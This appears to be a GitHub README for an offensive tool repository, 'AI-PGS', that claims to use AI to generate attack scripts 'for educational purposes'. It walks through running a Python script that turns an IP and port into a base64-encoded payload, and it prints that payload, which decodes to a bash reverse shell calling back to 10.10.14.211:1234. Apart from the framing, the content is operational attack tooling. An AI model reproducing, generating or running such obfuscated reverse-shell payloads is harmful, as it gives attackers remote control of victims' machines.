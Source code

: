 # AI-PGS
# Focus on Cyber Kill Chain Framework for educational purposes. Harness AI to generate diverse, high-quality scripts from user prompts. Explore various genres with customizable parameters.

To use the scripts on this vault follow the instructions:
1 - Paste the code on your Command Line (CLI) and remove the text (.txt) extension:
    ┌──(kali㉿kali)-[~]
    └─$ view BASE64-Reserse-Shell-Prompter.py
2 - Provide Execution (+x) permissions:
    ┌──(kali㉿kali)-[~]
    └─$ chmod +x BASE64-Reserse-Shell-Prompter.py
3 - Use the script:
    ┌──(kali㉿kali)-[~]
    └─$ python BASE64-Reserse-Shell-Prompter.py 10.10.14.211 1234
Base64-encoded Bash shell session command:
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTEvMTIzNCAwPiYx

The following methods can discover the usage:
- Analyze the source code:
    ┌──(kali㉿kali)-[~]
    └─$ less BASE64-Reserse-Shell-Prompter.py

- Check if a usage prompt is available:
    └─$ python BASE64-Reserse-Shell-Prompter.py 
Usage: python script.py <ip_address> <port>

